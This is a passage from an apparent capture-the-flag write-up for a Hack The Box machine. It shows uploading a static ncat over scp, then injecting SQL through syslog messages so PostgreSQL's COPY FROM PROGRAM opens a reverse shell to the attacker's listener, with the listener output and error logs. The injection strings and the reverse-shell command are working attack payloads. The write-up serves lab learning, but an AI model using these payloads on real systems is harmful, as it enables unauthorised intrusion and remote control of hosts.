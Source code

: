 

#### Run a Reverse Shell

This is how jkr told me he planned for it to be solved in writing the
box. I can run code directly from `postgres`. So I'll write a script
that will give me a shell. Since this box has limited options, the best
path is to upload a copy of `nc`. (I played with trying to get a
`python` reverse shell to stay connected more than 10 seconds, but
couldn't get it.) I'll grab a [statically compiled
ncat](https://github.com/ZephrFish/static-tools/blob/master/ncat) and
upload it over `scp`:



    root@kali# scp -i ~/id_rsa_generated nc roy@10.10.10.156:/tmp/nc



Now I can inject code that will call it:



    roy@zetta:/var/log/postgresql$ logger -p local7.info "sd',null); CREATE TABLE IF NOT EXISTS exec(string text); COPY exec FROM PROGRAM \$$/tmp/nc -e /bin/sh 10.10.14.5 443\$$; -- "                                                                                     



No errors, and a callback:



    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.156.
    Ncat: Connection from 10.10.10.156:33972.
    id
    uid=106(postgres) gid=113(postgres) groups=113(postgres),112(ssl-cert)



Except after 10 seconds, the connection dies, and errors:



    2019-09-01 15:16:22.595 EDT [16482] postgres@syslog ERROR:  program "/tmp/nc -e /bin/sh 10.10.14.5 443" failed
    2019-09-01 15:16:22.595 EDT [16482] postgres@syslog DETAIL:  child process exited with exit code 1
    2019-09-01 15:16:22.595 EDT [16482] postgres@syslog STATEMENT:  INSERT INTO syslog_lines (message, devicereportedtime) values (' sd\',null); CREATE TABLE IF NOT EXISTS exec(string text); COPY exec FROM PROGRAM $$/tmp/nc -e /bin/sh 10.10.14.5 443$$; -- ','2019-09-0
    1 19:16:12')



This is likely the result of a timeout in the database. I'll run it
again, with `nc` in the background:



    roy@zetta:/var/log/postgresql$ logger -p local7.info "sd',null); CREATE TABLE IF NOT EXISTS exec(string text); COPY exec FROM PROGRAM \$$/tmp/nc -e /bin/sh 10.10.14.5 443 & \$$; -- "
